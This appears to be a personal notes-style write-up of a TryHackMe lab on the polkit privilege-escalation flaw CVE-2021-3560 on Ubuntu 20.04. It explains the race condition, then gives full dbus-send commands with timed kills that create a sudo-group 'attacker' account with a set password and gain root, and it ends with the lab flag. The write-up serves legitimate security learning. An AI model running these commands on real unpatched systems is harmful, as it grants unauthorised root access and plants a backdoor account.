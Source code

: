 ```yaml
---
sticker: emoji//1fa81
---
```

## _**Overview**_  
---
In early 2021 a researcher named [Kevin Backhouse](https://github.blog/author/kevinbackhouse/) discovered a seven year old privilege escalation vulnerability (since designated CVE-2021-3560) in the Linux polkit utility. Fortunately, different distributions of Linux (and even different versions of the same distributions) use different versions of the software, meaning that only some are vulnerable.

Specifically, the following mainstream distributions, amongst others, were vulnerable:

- Red Hat Enterprise Linux 8
- Fedora 21 (or later)
- Debian Testing ("Bullseye")
- Ubuntu 20.04 LTS ("Focal Fossa")  

All should now have released patched versions of their respective polkit packages, however, if you encounter one of these distributions then it may still be vulnerable if it hasn't been updated for a while.

For this room we will be focusing specifically on Ubuntu 20.04. Canonical released a patch for their version of polkit (`policykit-1`), which has version number `0.105-26ubuntu1.1`. The last vulnerable version available in the apt repositories for Focal Fossa is `0.105-26ubuntu1`, so, if you see this, you may be in luck!

We can use `apt list --installed | grep policykit-1` to check the installed version of polkit:  

![Image demonstrating the installed vulnerable version of polkit](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/3e537ed069ff.png)

The original description of this vulnerability can be found in a post written by Kevin Backhouse, [here](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/).  

---

### _**What is Polkit?**_  
----
The logical question to be asking right now is: "What is polkit?"

Polkit is part of the Linux authorization system. In effect, when you try to perform an action which requires a higher level of privileges, the policy toolkit can be used to determine whether you have the requisite permissions. It is integrated with systemd and is much more configurable than the traditional sudo system. Indeed, it is sometimes referred to as the "sudo of systemd".

When interacting with polkit we can use `pkexec`, instead of `sudo`. As an example, attempting to run the `useradd` command through `pkexec` in a GUI session results in a pop-up asking for credentials:  
`pkexec useradd test1234`  
![Demonstrating the polkit GUI authentication dialogue](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/3ceb61a94882.png)  

In a CLI session, we get a text-based prompt instead:  
![Demonstrating the polkit CLI authentication dialogue](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/b42accbd7f01.png)  

To summarize, the policy toolkit can be thought of as a fine-grained alternative to the simpler sudo system.

---

### _**How is Polkit vulnerable?**_  
---
The next logical question is of course: "How can we exploit polkit"?

The short answer is: by manually sending dbus messages to the dbus-daemon (effectively an API to allow different processes the ability to communicate with each other), then killing the request before it has been fully processed, we can trick polkit into authorizing the command. If you are not familiar with daemons, they are effectively background services running on Linux. The dbus-daemon is a program running in the background which brokers messages between applications.  

For the sake of keeping this room relatively light, we won't go too deep into the specifics behind this (although reading the [full article on the vulnerability](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/#about) is highly recommended). Effectively, the vulnerability can be boiled down to these steps:

```ad-summary
1. The attacker manually sends a dbus message to the accounts-daemon requesting the creation of a new account with sudo permissions (or latterly, a password to be set for the new user). This message gets given a unique ID by the dbus-daemon.  
2. The attacker kills the message after polkit receives it, but before polkit has a chance to process the message. This effectively destroys the unique message ID.
3. Polkit asks the dbus-daemon for the user ID of the user who sent the message, referencing the (now deleted) message ID.
4. The dbus-daemon can't find the message ID because we killed it in step two. It handles the error by responding with an error code.
5. Polkit mishandles the error and substitutes in 0 for the user ID -- i.e. the root account of the machine.  
6. Thinking that the root user requested the action, polkit allows the request to go through unchallenged.
```

In short, by destroying the message ID before the `dbus-daemon` has a chance to give polkit the correct ID, we exploit the poor error-handling in polkit to trick the utility into thinking that the request was made by the all-powerful root user.  

If this doesn't make sense now, hopefully it will after you've had a chance to perform the exploit yourself!


## Exploitation Process
----

We've seen the theory, now let's see it in action!

Let's try to add a new user called `attacker`, with sudo permissions, and a password of `Expl01ted`. Just read this information for now -- you will have time to try it in the next task!  

First, let's look at the dbus messages we'll need to send:

- `dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1`

This command will manually send a dbus message to the accounts daemon, printing the response and creating a new user called attacker (`string:attacker`) with a description of "Pentester Account" (`string:"Pentester Account"`) and membership of the sudo group set to true (referenced by the`int32:1` flag).

Our second dbus message will set a password for the new account:

- `dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/UserUSER_ID org.freedesktop.Accounts.User.SetPassword string:'PASSWORD_HASH' string:'Ask the pentester'`  



This once again sends a dbus message to the accounts daemon, requesting a password change for the user with an ID which we specify (shown in red), a password hash which we need to generate manually, and a hint ("Ask the pentester")

---

As this is effectively a race condition, we first need to determine how long our command will take to run. Let's try this with the first dbus message:  

`time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1`  

![](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/fe8af4395935.png)  

This takes 0.011 seconds, or 11 milliseconds. This number will be slightly different each time you run the command; however, on the provided machine it should always be _around_ this number.

_**Note:** For the first five minutes or so of deployment the machine is still booting things in the background, so don't be alarmed if the time you get is a lot longer to begin with -- just keep running the command periodically until it gives you a time in a similar region to the results above._

We need to kill the command approximately halfway through execution. Five milliseconds usually works fairly well on the provided machine; however, be aware that this is not an exact thing. You may need to change the sleep time, or run the command several times before it works. That said, once you find a time that works, it should work consistently. If you are struggling to get a working time, putting the command inside a bash for loop and quickly running through a range of times tends to work fairly well.  

Let's try this. We need to send the dbus message, then kill it about halfway through:  

`dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1 & sleep 0.005s; kill $!`

![](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/b1dba51148aa.png)  

To explain the above command, we sent the dbus message in a background job (using the ampersand to background the command). We then told it to sleep for 5 milliseconds (`sleep 0.005s`), then kill the previous process (`$!`). This successfully created the new user, adding them into the sudo group.  
We should note down at this point that the user ID of the new user in this instance is 1000.

Now all we need to do is give the user a password and we should be good to go!

---

We need a password hash here, so let's generate a Sha512Crypt hash for our chosen password (`Expl01ted`):  

`openssl passwd -6 Expl01ted`  

![](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/1316626c8114.png)  

Using openssl, we generate a password of type 6 (SHA512-crypt) and our plaintext password (`Expl01ted`).

Now let's finish this! 5 milliseconds worked last time, so it should work here too:  

`dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword string:'$6$TRiYeJLXw8mLuoxS$UKtnjBa837v4gk8RsQL2qrxj.0P8c9kteeTnN.B3KeeeiWVIjyH17j6sLzmcSHn5HTZLGaaUDMC4MXCjIupp8.' string:'Ask the pentester' & sleep 0.005s; kill $!`

![](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/12e11c378d8d.png)

With a hop, su, and a `sudo -s`, we have root!


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250107154644.png)

We have root flag, we must submit it to the flag system and we will get our normal flag:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250107154738.png)

So, our flag would be: `THM{N2I0MTgzZTE4ZWQ0OGY0NjdiNTQ0NTZi}`
